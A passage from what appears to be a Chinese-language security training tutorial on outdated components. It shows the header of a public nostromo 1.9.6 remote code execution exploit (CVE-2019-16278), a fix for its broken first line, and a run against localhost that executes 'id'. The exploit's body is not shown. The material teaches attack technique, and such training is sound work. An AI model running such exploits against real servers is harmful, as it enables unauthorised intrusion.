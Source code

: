 幸运的是，本例中的exp执行错误是由本应被注释的代码行所引起的，因此我们很容易就能修复该exp，我们只需将以下代码行注释即可：

```python
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

cve2019_16278.py  # This line needs to be commented. 注释这行代码

#!/usr/bin/env python
```

解决以上问题之后，让我们再次尝试运行exp：

```shell
user@linux$ python 47837.py 127.0.0.1 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Fri, 03 Feb 2023 04:58:34 GMT
Server: nostromo 1.9.6
Connection: close

uid=1001(_nostromo) gid=1001(_nostromo) groups=1001(_nostromo)
```

我们成功执行了RCE，需要注意的是，大多数exp脚本只会告诉我们需要给它提供哪些参数以便完成漏洞利用过程，exp开发人员很少会让我们为了弄清楚如何使用脚本而去阅读数百行代码。

有时我们会很容易得到应用程序的版本号，但其他时候我们可能还需要深入挖掘HTML源代码，或者需要猜测一个能够被成功使用的漏洞利用脚本；如果目标应用程序的相关漏洞是一个已知漏洞，则总有办法可以尝试发现目标应用程序的当前版本信息。

## 自带缺陷和过时的组件(操作实践)
